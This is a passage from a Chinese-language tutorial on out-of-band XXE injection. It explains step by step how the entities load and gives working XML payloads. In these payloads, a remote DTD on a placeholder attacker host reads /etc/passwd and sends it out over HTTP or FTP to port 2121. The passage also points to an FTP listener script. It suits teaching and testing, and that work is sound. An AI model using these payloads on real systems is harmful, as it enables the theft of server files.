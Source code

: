 ```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE root [ 
<!ENTITY % dtd SYSTEM "http://IP/test.dtd"> 
%dtd;%int;%send; ]>
```

注意此处test.dtd的%进行了html实体编码。%进行Unicode编码为 % 或者 %(转化成Unicode编码有两种形式，以&#后接十进制数字，&#x后接十六进制数字)

![img](XXE.assets/modb_20211021_190cbacc-3260-11ec-b086-fa163eb4f6be.png)

具体加载过程：

首先加载 `%dtd`
。此时会远程加载攻击者主机上的外部实体，然后加载 `%int`
。接下来加载 `%send`
 实体，此时就是关键点，服务器端返回内容（通过get查询方式会在攻击者的服务器日志中留下记录），查询的字符串 p 的值便是参数实体 file 的值，也就是读取的文件。

补充：

此处利用的是php伪协议对读取文件信息base64编码，再通过http协议发送数据，而在java中，此处利用点中，文件里如果存在换行等字符，就会导致发送失败，不能通过http协议发送，则用ftp协议。（无特殊字符的简单文件http协议也可以进行读取）

Post 包

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip/evil.xml">
%remote;]>
<root/>
```

evil.xml

```
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://ip:2121/%d;'>">
%c;
```

在测试主机上下载并运行xxe-ftp-server.rb，运行后会在2121端口开启ftp服务，脚本下载地址：**https://github.com/ONsec-Lab/scripts**

```
Rubyxxe-ftp-server.rb
```

### 2.3 判出此处断是否存在漏洞

遇到XML相关的交互过程，以如下步骤判断是否存在漏洞：

### **（1）检测XML是否会被解析：**
